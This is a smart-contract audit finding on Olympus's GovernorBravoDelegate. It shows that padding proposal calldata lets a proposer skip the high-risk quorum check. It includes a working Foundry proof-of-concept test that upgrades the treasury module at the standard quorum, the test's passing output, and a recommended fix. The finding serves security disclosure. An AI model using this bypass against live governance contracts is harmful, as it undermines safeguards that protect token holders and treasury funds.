 Round Grape Wasp

medium

# Proposers can avoid the high risk quorum for high risk proposals by adding additional calldata

## Summary
Strict equality checks on calldata length when checking for high risk proposals allows proposers to create calldata for high risk actions that bypasses high risk criteria and results in using the standard quorum instead of the intended high risk quorum.

## Vulnerability Detail
When creating a proposal in `propose`, the transactions are checked in `_isHighRiskProposal` to determine whether they are 'high risk' - whether or not they impact 'high risk' modules managed in the kernel (these modules are set by governance through `_setModuleRiskLevel`). If not identified as high risk, the quorum (min no. of for votes needed for the proposal to succeed) is set to 20% of total gOHM supply. Otherwise, it is set to a higher 30% making it harder to pass.
https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/6171681cfeec8a24b0449f988b75908b5e640a35/bophades/src/external/governance/GovernorBravoDelegate.sol#L169-L182
```solidity
            if (_isHighRiskProposal(targets, signatures, calldatas)) {
                quorumVotes = getHighRiskQuorumVotes();
            } else {
                quorumVotes = getQuorumVotes();
            }
            ...
            newProposal.quorumVotes = quorumVotes;
```
In `_isHighRiskProposal`, each transaction is only checked if the target is the kernel, the function selector corresponds to `Kernel.executeAction`, the calldata/arguments are a specific length that match the `Kernel.executeAction` function signature, and the action is upgrading a module, activating a policy, or deactivating a policy.
https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/6171681cfeec8a24b0449f988b75908b5e640a35/bophades/src/external/governance/GovernorBravoDelegate.sol#L620-L663
```solidity
        for (uint256 i = 0; i < numActions; i++) {
            address target = targets[i];
            string memory signature = signatures[i];
            bytes memory data = calldatas[i];

            if (target == kernel) {
                // Get function selector
                bytes4 selector = bytes(signature).length == 0
                    ? bytes4(data)
                    : bytes4(keccak256(bytes(signature)));

                // Check if the action is making a core change to system via the kernel
                if (selector == Kernel.executeAction.selector) {
                    uint8 action;
                    address actionTarget;

                    if (bytes(signature).length == 0 && data.length == 0x44) {
                        assembly {
                            action := mload(add(data, 0x24)) // accounting for length and selector in first 4 bytes
                            actionTarget := mload(add(data, 0x44))
                        }
                    } else if (data.length == 0x40) {
                        (action, actionTarget) = abi.decode(data, (uint8, address));
                    } else {
                        continue;
                    }

                    // If the action is upgrading a module (1)
                    if (action == 1) {
                        // Check if the module has a high risk keycode
                        if (isKeycodeHighRisk[Module(actionTarget).KEYCODE()]) return true;
                    }
                    // If the action is installing (2) or deactivating (3) a policy, pull the list of dependencies
                    else if (action == 2 || action == 3) {
                        // Call `configureDependencies` on the policy
                        Keycode[] memory dependencies = Policy(actionTarget)
                            .configureDependencies();

                        // Iterate over dependencies and looks for high risk keycodes
                        uint256 numDeps = dependencies.length;
                        for (uint256 j; j < numDeps; j++) {
                            Keycode dep = dependencies[j];
                            if (isKeycodeHighRisk[dep]) return true;
                        }
```
Notice that we skip checking the risk level of the affected modules for the transaction (instead continuing to the next transaction) if the calldata size does not exactly match up to 64 bytes. Consequently, the proposer can add extra bytes to the end of the calldata to intentionally bypass risk checking for a high risk transaction so the proposal will use the standard quorum.

Paste the PoC below into `GovernorBravoDelegate.t.sol`. It demonstrates the successful execution of a transaction upgrading the TRSRY module (by default high risk as set in the `GovernorBravoDelegate` initialisation) with a proposal that uses the standard quorum instead of the high risk quorum.
<details>
<summary>PoC</summary>

```solidity
function testHighRiskQuorumBypass() public {
        // mint to alice and 0 so alice has ownership of 20% (the standard quorum)
        gohm.mint(address(0), 710_000e18);
        gohm.mint(alice, 290_000e18);
        assertEq(gohm.balanceOf(alice) * 100_000 / gohm.totalSupply(), 20_000);
        console2.log("Alice gOHM balance: ", gohm.balanceOf(alice));
        console2.log("Total supply of gOHM: ", gohm.totalSupply());
        gohm.checkpointVotes(alice);

        // Activate TRSRY
        vm.prank(address(timelock));
        kernel.executeAction(Actions.InstallModule, address(TRSRY));

        // verify that the existing TRSRY module is the currently deployed one
        Keycode trsryKeycode = Module(TRSRY).KEYCODE();
        Module currTrsry = kernel.getModuleForKeycode(trsryKeycode);
        assertEq(address(TRSRY), address(currTrsry));
        console2.log("TRSRY before upgrade: ", address(TRSRY));

        // verify that the TRSRY module is high risk
        bool isHighRisk = GovernorBravoDelegate(address(governorBravoDelegator)).isKeycodeHighRisk(trsryKeycode);
        assertEq(isHighRisk, true);

        // setup proposal to upgrade the TRSRY module, which should be high risk
        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        string[] memory signatures = new string[](1);
        bytes[] memory calldatas = new bytes[](1);
        string memory description = "Upgrade TRSRY module";

        // deploy new OlympusRoles module to upgrade to
        OlympusTreasury newTrsryModule = new OlympusTreasury(kernel);
        targets[0] = address(kernel);
        values[0] = 0;
        signatures[0] = "executeAction(uint8,address)";
        // add extra byte to the end of the calldata to avoid high risk quorum
        calldatas[0] = abi.encodePacked(abi.encode(1, address(newTrsryModule)), uint8(1));

        bytes memory data = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature("getQuorumVotes()")
        );
        uint256 stdQuorum = abi.decode(data, (uint256));

        // just in case ensure that the standard quorum < the high risk quorum
        data = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature("getHighRiskQuorumVotes()")
        );
        uint256 highRiskQuorum = abi.decode(data, (uint256));
        assertEq(stdQuorum < highRiskQuorum, true);

        console2.log("Standard quorum: ", stdQuorum);
        console2.log("High risk quorum: ", highRiskQuorum);

        // Create proposal
        vm.prank(alice);
        data = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature(
                "propose(address[],uint256[],string[],bytes[],string)",
                targets,
                values,
                signatures,
                calldatas,
                description
            )
        );
        uint256 proposalId = abi.decode(data, (uint256));

        // verify that the standard quorum, not the high risk quorum, was used
        data = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature("getProposalQuorum(uint256)", proposalId)
        );
        uint256 proposalQuorum = abi.decode(data, (uint256));
        assertEq(proposalQuorum, stdQuorum);
        console2.log("TRSRY upgrade proposal quorum: ", proposalQuorum);

        // Warp forward so voting period has started
        vm.roll(block.number + 21601);

        // Vote for proposal and warp so voting has ended
        vm.prank(alice);
        address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature("castVote(uint256,uint8)", proposalId, 1)
        );

        vm.roll(block.number + 21600);

        // Queue proposal
        address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature("queue(uint256)", proposalId)
        );

        // Warp forward through timelock delay
        vm.warp(block.timestamp + 7 days + 1);

        // Execute proposal
        address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature("execute(uint256)", proposalId)
        );

        // verify that the TRSRY module was upgraded
        currTrsry = kernel.getModuleForKeycode(trsryKeycode);
        assertEq(address(newTrsryModule), address(currTrsry));
        console2.log("TRSRY after upgrade: ", address(currTrsry));
    }
```
Output
```shell
Running 1 test for src/test/external/GovernorBravoDelegate.t.sol:GovernorBravoDelegateTest
[PASS] testHighRiskQuorumBypass() (gas: 4272784)
Logs:
  Alice gOHM balance:  400000000000000000000000
  Total supply of gOHM:  2000000000000000000000000
  TRSRY before upgrade:  0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9
  Standard quorum:  400000000000000000000000
  High risk quorum:  600000000000000000000000
  TRSRY upgrade proposal quorum:  400000000000000000000000
  TRSRY after upgrade:  0xD6BbDE9174b1CdAa358d2Cf4D57D1a9F7178FBfF
```
</details>

## Impact
Proposers can create high risk proposals with a lower quorum than expected removing an intended safe guard and increasing the risk of potentially damaging proposals succeeding.

## Code Snippet
https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/6171681cfeec8a24b0449f988b75908b5e640a35/bophades/src/external/governance/GovernorBravoDelegate.sol#L620-L663

## Tool used

Manual Review, Foundry

## Recommendation
In `_isHighRiskProposal`, validate that `data.length == 0x44` if the signature is not specified or `data.length == 0x40` if the signature is specified for transactions calling `Kernel.executeAction`. Otherwise, always decode if `data.length >= 0x44` or `data.length >= 0x40`.